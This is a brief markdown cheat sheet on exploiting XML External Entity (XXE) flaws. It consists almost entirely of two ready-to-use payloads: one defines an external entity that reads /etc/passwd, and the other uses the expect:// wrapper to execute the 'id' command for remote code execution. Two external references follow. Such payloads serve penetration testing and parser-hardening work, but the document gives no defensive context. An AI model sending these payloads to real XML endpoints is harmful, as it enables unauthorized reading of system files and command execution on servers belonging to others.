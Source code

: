 # Exploiting XML External Entity (XXE)

1. **File exfiltration**

        <?xml version="1.0"?>
        <!DOCTYPE hacks [
        <!ENTITY passwd SYSTEM "file:///etc/passwd" >
        ]>
        <hacks>&passwd;</hacks>

2. **RCE**

        <?xml version="1.0"?>
        <!DOCTYPE hacks [
        <!ENTITY cmd SYSTEM "expect://id" >
        ]>
        <hacks>&cmd;</hacks>

## References

* https://caveconfessions.com/xxe-ugly-side-of-xml/
* https://media.blackhat.com/eu-13/briefings/Osipov/bh-eu-13-XML-data-osipov-slides.pdf